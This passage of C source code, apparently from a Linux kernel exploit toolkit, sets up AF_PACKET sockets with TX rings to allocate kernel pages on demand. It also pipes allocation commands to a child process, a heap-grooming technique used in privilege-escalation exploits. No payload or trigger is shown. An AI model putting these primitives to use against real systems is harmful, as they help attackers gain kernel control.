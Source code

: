 ```c
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

/* create a socket and alloc pages, return the socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

/* the parent process should call it to send command of allocation to child */
int alloc_page(int idx, unsigned int size, unsigned int nr)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
        .size = size,
        .nr = nr,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

```